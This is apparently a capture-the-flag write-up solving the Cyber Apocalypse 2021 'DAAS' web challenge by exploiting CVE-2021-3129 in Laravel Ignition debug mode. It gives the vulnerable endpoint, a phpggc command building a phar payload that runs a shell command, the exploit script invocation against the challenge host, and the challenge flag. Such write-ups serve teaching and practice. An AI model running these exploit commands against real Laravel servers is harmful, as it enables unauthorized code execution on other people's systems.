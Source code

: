 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2021 | DAAS Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2021
parent: cyber_apocalypse_2021
category: web
challenge: DAAS
tags: "web, nigamelastic, laravel, rce"
date: 2021-04-24T00:00:00+00:00
last_modified_at: 2021-04-24T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2021</h1>

## DAAS

> Solved by: Nigamelastic

* The hint for this challenge talks about being stuck in debug.
* Some research shows there is a CVE for this, and the Laravel version were working with is vulnerable.
* https://www.exploit-db.com/exploits/49424
* https://www.youtube.com/watch?v=gr8ZKQpYiug&

**CVE-2021-3129** : https://nvd.nist.gov/vuln/detail/CVE-2021-3129

* Find 

```
ip/_ignition/execute-solution
```

* For a laravel panel with error messages and stack trace. 

![](https://i.imgur.com/bwswVCZ.jpg)

* https://www.ambionics.io/blog/laravel-debug-rce
* As mentioned in the blog above i tried performing a post request but it gave me a 302 response
* but the above link mentions their github page and exploit which is
`https://github.com/ambionics/phpggc`
and 
`https://github.com/ambionics/laravel-exploits`

the idea is to get the phar file with ur custom command from 1st repo and then put the phar file into the exploit with specified url to run the exploit
**PS: for a linux command with spaces simply use** `"` 

* so for our case since we know the flag was found on the root directory and its name as 

```
flagM1AhS
```

* our phpggc command should be

```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "cat /flagM1AhS"
```

* run that in the exploit as:

```bash
./laravel-ignition-rce.py http://165.227.234.7:31636/ /tmp/exploit.phar
```

* and we have the flag:

```
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
```

